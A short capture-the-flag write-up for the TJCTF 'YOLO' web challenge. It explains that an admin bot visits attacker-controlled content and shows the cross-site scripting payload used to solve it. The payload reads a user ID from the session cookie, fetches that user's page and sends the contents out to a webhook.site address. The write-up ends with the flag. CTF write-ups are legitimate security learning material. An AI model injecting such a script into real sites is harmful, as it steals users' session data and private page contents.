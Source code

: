 # YOLO

**The challenge**

The challenge will as for your name and the thing you want to do. and then at the /do/userId page it shows what you want to do. There was an admin bot it will simply visit the page you give After entering the username and flag into the yolo page.

**the exploit**

Here it was an xss attack but



The script
```html
    <script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">
    let a = JSON.parse(atob(document.cookie.split("=")[1].split(".")[1]))["userId"];
    fetch("/do/" + a )
    .then((res) => res.text())
    .then((res) => (window.location = "https://webhook.site/5a267c3d-a359-4a27-b843-293a00d4ad5c?a=" + btoa(res)));
    </script>
```
Then base64 decode and wiil get the flag.

**The Flag**

Flag = tjctf{y0u_0n1y_1iv3_0nc3_5ab61b33}